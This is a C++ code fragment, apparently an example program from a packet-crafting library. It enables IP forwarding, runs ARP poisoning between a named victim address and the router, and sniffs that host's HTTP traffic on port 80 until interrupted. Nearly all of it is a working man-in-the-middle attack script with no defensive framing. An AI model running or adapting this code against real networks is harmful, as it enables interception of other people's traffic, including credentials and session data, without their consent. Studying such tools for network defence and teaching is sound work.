 ```
/* Handling a CTRL-C */
void ctrl_c(int dummy) {
	/* Cancel the sniffer */
	global_sniff->Cancel();
	/* And shutdown the ARP poisoner */
	CleanARPContext(global_context);
}

/* Activate the IP forwarding */
void set_ipforward() {
	system("/bin/echo 1 > /proc/sys/net/ipv4/ip_forward");
}

/* Reset the IP forward */
void reset_ipforward() {
	system("/bin/echo 0 > /proc/sys/net/ipv4/ip_forward");
}

int main() {

	/* Set the interface */
	string iface = "wlan0";

	/* Host A IP address */
	string victim_net = "192.168.0.106";
	/* HOst B IP address */
	string router = "192.168.0.1";

	/* ----------------------------------------------------------------------- */

	/* Set IP forward */
	set_ipforward();

	/*
	 * Begin the ARP poisoning (Sending false ARP requests)
	 */
	global_context = ARPSpoofingReply(router,victim_net,iface);
	/*
	 * The function returns immediately, it spawns a thread "on the background"
	 * that does the ARP poisoning
	 */

	/* You can print the information of the context */
	PrintARPContext(*global_context);

	/* ----------------------------------------------------------------------- */

	/* Create a sniffer */
	Sniffer sniff("ip and tcp and port 80",iface,PacketHandler);

	/* Set the global reference */
	global_sniff = &sniff;

	/* Set the signal handler */
	signal(SIGINT,ctrl_c);

	/* And capture ad-infinitum (until CTRL-C is pressed) */
	sniff.Capture(-1);

	/* ----------------------------------------------------------------------- */

	/* Reset IP forward */
	reset_ipforward();
```